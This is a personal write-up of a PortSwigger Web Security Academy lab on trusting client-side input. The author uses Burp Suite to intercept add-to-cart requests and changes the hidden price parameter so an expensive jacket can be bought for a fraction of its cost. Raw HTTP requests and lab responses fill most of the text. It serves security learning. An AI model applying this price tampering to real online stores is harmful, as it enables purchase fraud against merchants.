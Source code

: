 This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket.

The lab says I can log in to my own account using the following credentials: `wiener:peter`

The jacket they asked us to buy is $1337, but we only have $100.

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FTdazfM8mKd62sM9sDNdp%2Fuploads%2Ft8FEkZXtvmgKnR5NkKPR%2FScreenshot%202023-12-17%20at%205.37.47%20PM.png?alt=media&token=dcf3808a-81a1-4c96-87e8-d93dbe216773)

I'll place the item in my cart, place the order to see the result first.

```
GET /cart?err=INSUFFICIENT_FUNDS HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

There is a error message that lets us know there is insufficient funds. In order to manipulate this, we have to see what result we get when we buy something within $100.

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FTdazfM8mKd62sM9sDNdp%2Fuploads%2Fehd4tD1G3mF1fGm30fHy%2FScreenshot%202023-12-17%20at%205.45.33%20PM.png?alt=media&token=633c0ed3-7a70-4495-b919-ee6ee2d445d6)

I'll turn on Burp Proxy, place the order and intercept the request:

```
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

We see from the request header there is `/order-confirmation?order-confirmed=true .`

Is there a way we can possibly paste this into the request for when we order the jacket? Let's try it.

```
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Let's send this modified request via Burp Repeater to see if it works!

```
HTTP/2 405 Method Not Allowed
Allow: GET
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

​

"Method Not Allowed"
```

Whoops. Maybe I went too far ahead. Let's try manipulating the data earlier on.

Going back to the lab description, it says we can buy items for an unintended price. This indicates to me that I can somehow manipulate the price when intercepting a request.

The request made when checking out does not show any way to do this, so let's try this earlier when we add the item to the cart.

```
POST /cart HTTP/2
Host: 0a48002b043008a1864f99f000c9002d.web-security-academy.net
Cookie: session=2OV62Y55xhB5K582mDaIpDIrjWHT1iZi
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net
Referer: https://0a48002b043008a1864f99f000c9002d.web-security-academy.net/product?productId=5
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=5&redir=PRODUCT&quantity=1&price=680
```

​



We see that from adding the cheaper item to our cart, we get the following at the body:

`productId=5&redir=PRODUCT&quantity=1&price=680`

Let's try intercepting the request to add the jacket to the cart:

`productId=1&redir=PRODUCT&quantity=1&price=133700`

This was found in its body. Let me change the price to that of the cheaper item:

`productId=1&redir=PRODUCT&quantity=1&price=680`

Let's try and forward this modified request:
![Pasted image 20240509135839](images/Pasted%20image%2020240509135839.png)
As you can see, the price of the jacket has been successfully changed. Let's complete the purchase.
![Pasted image 20240509135907](images/Pasted%20image%2020240509135907.png)
Nice!
Really learnt how there is logic flaws when it comes to validating inputs, and important vector I will take note of in the future!